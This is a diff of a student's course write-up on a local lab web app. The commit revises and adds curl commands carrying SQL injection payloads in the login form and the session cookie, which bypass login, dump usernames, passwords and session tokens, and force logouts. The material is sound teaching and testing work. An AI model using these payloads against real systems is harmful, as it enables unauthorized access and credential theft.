

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_3/writeup.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Machine_Problem_3/writeup.md
+++ b/Machine_Problem_3/writeup.md
@@ -31,7 +31,7 @@ List of vulnerabilities discovered:
 > ```bash
 > curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR 1=1 --&password="
 > curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR TRUE --&password="
-> curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=' UNION select 1 from users; --&password="
+> curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=' UNION SELECT id FROM users; --&password="
 > ```
 
 > [!IMPORTANT]
@@ -52,6 +52,7 @@ List of vulnerabilities discovered:
 > curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1 --"
 > curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1--" --data-raw "message=message=1', 1), ((SELECT GROUP_CONCAT(id || ',' || username || ':' || password, '<br>') FROM users), 1)--"
 > curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1--" --data-raw "message=1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--"
+> curl -L 'http://0.0.0.0:5000/logout'  -H "Cookie: session_token=' UNION SELECT 1 AS id, 'maldev' AS username FROM users --"
 > ```
 
 ### CSRF
@@ -550,6 +551,15 @@ the output is
 
 ***This is a serious concern...***
 
+It is also possible to force a user to logout of their session (equivalent to deleting the session tokens in the database)
+
+```bash
+curl -L 'http://0.0.0.0:5000/logout' -H "Cookie: session_token=' UNION SELECT 1 AS id, 'maldev' AS username FROM users--"
+```
+
+This vulnerability might give a hint to CSRF (Cross-Site Request Forgery) attack.
+
+
 
 ## Patching the vulnerabilities
 
````
